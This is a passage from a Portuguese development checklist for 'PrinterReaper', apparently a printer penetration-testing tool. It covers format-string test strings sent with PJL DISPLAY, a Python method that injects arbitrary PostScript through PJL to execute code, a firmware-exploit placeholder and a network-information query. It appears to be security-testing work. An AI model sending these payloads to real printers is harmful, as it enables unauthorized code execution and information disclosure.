 ### ✅ 8.2 Format String Attacks
**PJL**: `@PJL DISPLAY "%s%s%s%s"`  
**PrinterReaper**: `display` com format strings  
**Efeito**: Testar vulnerabilidades de format string

**Teste**:
```
display "%s%s%s%s%s%s%s%s"
display "%x%x%x%x%x%x"
display "%n%n%n%n"
```

### ❌ 8.3 PostScript Code Injection (FALTANDO)
**Descrição**: Injetar código PostScript via PJL  
**PrinterReaper**: **NÃO IMPLEMENTADO**  
**Efeito**: Executar código arbitrário

**Implementação**:
```python
def do_ps_inject(self, arg):
    """Inject PostScript code via PJL"""
    if not arg:
        output().errmsg("Usage: ps_inject <ps_file>")
        return
    
    ps_code = file().read(arg)
    if not ps_code:
        return
    
    # Enter PostScript mode via PJL
    self.cmd("@PJL ENTER LANGUAGE=POSTSCRIPT")
    self.send(ps_code)
    self.send(b"\x04")  # EOT
    
    output().info("PostScript code injected")
```

### ❌ 8.4 Firmware Exploit (FALTANDO)
**Descrição**: Explorar vulnerabilidades no firmware  
**PrinterReaper**: **NÃO IMPLEMENTADO**  
**Efeito**: Code execution via firmware bug

---

## 9️⃣ NETWORK ATTACKS (2/3 = 67%)

### ✅ 9.1 Information Disclosure (Network)
**PJL**: `@PJL INFO NETWORK`  
**PrinterReaper**: `network`  
**Info**: Configuração completa de rede
